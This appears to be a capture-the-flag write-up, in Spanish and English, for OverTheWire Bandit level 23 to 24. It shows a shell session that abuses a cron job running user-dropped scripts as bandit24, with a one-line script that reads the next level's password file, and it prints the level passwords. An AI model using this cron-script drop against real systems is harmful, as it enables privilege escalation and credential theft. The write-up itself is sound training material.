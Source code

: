 # Bandit Level 23 -> Level 24



## objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
**ssh bandit23@bandit.labs.overthewire.org -p 2220**
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G


## solucion
```bash()
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$  cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$  cd /tmp/kd
bandit23@bandit:/tmp/kd$  echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh 
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$  touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$  ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ date
Tue Feb 28 06:26:35 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$ exit
```

## Notas adicionales
| comando | descripcion
| xx | xx el contenido de un archivo 

## Referencias
